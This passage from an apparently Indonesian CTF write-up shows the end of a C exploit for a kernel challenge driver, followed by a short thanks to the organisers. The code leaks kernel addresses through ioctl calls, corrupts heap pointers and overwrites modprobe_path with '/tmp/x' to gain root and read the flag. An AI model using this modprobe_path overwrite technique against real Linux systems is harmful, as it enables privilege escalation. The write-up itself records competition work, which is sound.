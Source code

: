 ```c
    a = ioctl(global_fd, 0xcafebabe, &data);
    unsigned long long leak1 = p[CHUNK_SIZE / 8 - 1];
    printf("0x%llx 0x%llx\n", leak0, leak1);

    data.idx = 2;
    unsigned long long fake = leak1 + 0x100;
    
    p[CHUNK_SIZE / 8 - 1] = fake;
    p[0] = 0x43434343;
    a = ioctl(global_fd, 0xbabecafe, &data);
    strncpy(data.buffer, "DDDD", CHUNK_SIZE);
    a = ioctl(global_fd, 0xdeadbeef, &data);
    p[0] = 0x45454545;
    a = ioctl(global_fd, 0xdeadbeef, &data);

    p[0] = 0x42424242;
    p[CHUNK_SIZE / 8 - 1] = leak0 + 0x400;
    data.idx = 1;
    a = ioctl(global_fd, 0xbabecafe, &data);

    data.idx = 4;
    a = ioctl(global_fd, 0xcafebabe, &data);
    for (int i = 0; i < CHUNK_SIZE / 8; i ++){
        printf("0x%llx\n", p[i]);
    }
    unsigned long long modprobe_path = p[7] + 0x629ce0;
    printf("0x%llx\n", modprobe_path);


    p[0] = 0x42424242;
    p[CHUNK_SIZE / 8 - 1] = modprobe_path-0x10;
    data.idx = 1;
    a = ioctl(global_fd, 0xbabecafe, &data);

    data.idx = 4;
    strncpy(data.buffer, "AAAAAAAA/tmp/x\x00", CHUNK_SIZE);
    a = ioctl(global_fd, 0xbabecafe, &data);
    get_flag();

    // After that you cat /tmp/flag

    return 0;
}
```

### Akhir kata
Terima kasih idek telah mengadakan CTF yang luar biasa! Hasil yang sedikit tidak dinyangka, tetapi setelah 48 tryhard tim pjsk berhasil menang!

Semoga CTF idek 2023 sama tingkat kualitasnya!

